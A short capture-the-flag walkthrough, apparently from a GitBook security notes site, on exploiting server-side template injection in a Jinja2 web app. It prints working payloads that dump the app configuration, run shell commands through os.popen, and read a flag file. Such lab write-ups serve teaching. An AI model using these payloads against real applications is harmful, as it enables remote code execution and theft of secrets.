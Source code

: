# Exploiting SSTI - Jinja2

Exploit the SSTI vulnerability to obtain RCE and read the flag.

In this exercise we are already assuming that the web application uses `Jinja` template engine.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets first try to obtain the web application configuration with the following payload:

```jinja2
{{ config.items() }}
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The payload worked perfectly. As we can see, we managed to get the web application configuration. Now lets try to do a Remote Code Execution (RCE)  with this payload:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it worked!&#x20;

After a few tries we would eventually end with the following payload to retrieve our flag:

{% code overflow="wrap" %}
```django
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we found the flag!
